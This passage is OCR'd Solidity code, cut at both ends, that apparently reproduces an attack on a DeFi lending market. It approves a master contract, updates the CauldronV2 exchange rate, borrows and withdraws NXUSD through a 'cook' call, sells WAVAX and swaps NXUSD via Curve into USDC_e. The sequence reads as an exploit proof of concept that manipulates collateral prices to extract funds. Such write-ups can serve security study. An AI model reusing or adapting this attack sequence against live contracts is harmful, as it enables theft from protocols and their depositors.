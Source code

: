 │             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │
│         // NXUSD -> avCRV -> USDC_e                                                                                                                                                                                                                  │
│         CRVPool1.exchange_underlying(                                                                                                                                                                                                                │